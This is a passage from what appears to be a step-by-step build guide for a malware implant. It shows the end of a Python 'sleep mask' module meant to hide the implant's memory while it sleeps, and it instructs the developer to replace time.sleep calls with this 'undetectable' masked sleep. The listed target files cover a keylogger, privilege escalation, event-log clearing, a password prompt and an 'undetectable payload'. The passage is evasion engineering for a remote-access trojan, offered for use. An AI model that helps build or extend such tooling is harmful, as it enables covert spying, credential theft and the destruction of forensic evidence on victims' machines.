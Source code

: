 ```python
            
            return True
            
        except:
            return True


# Global sleep mask instance
_sleep_mask = None

def get_sleep_mask() -> SleepMask:
    """Get global sleep mask instance"""
    global _sleep_mask
    if _sleep_mask is None:
        _sleep_mask = SleepMask()
    return _sleep_mask

def masked_sleep(milliseconds: int):
    """Convenience function for masked sleep"""
    return get_sleep_mask().masked_sleep(milliseconds)
```

### **Step 4.2: Replace all time.sleep() calls**

**Find and replace in all files:**

**OLD:**
```python
import time
time.sleep(300)  # ❌ Detectable, memory exposed
```

**NEW:**
```python
from Core.sleep_mask import masked_sleep
masked_sleep(300000)  # ✅ Encrypted, undetectable (milliseconds)
```

**Files to modify:**
- `Core/advanced_evasion.py`
- `Core/elite_connection.py`
- `Core/elite_commands/elite_lockscreen.py`
- `Core/elite_commands/elite_keylogger.py`
- `Core/elite_commands/elite_kill.py`
- `Core/elite_commands/elite_popup.py`
- `Core/elite_commands/elite_freeze.py`
- `Core/elite_commands/elite_escalate.py`
- `Core/elite_commands/elite_clearlogs.py`
- `Core/elite_commands/elite_clearev.py`
- `Core/elite_commands/elite_askpassword.py`
- `Core/undetectable_payload.py`

**Validation:**
```bash
# Verify no time.sleep() calls remain
grep -r "time\.sleep" Core/ | grep -v "# "
# Expected: 0 results (except in comments)

echo "✅ Sleep mask implemented successfully"
```

---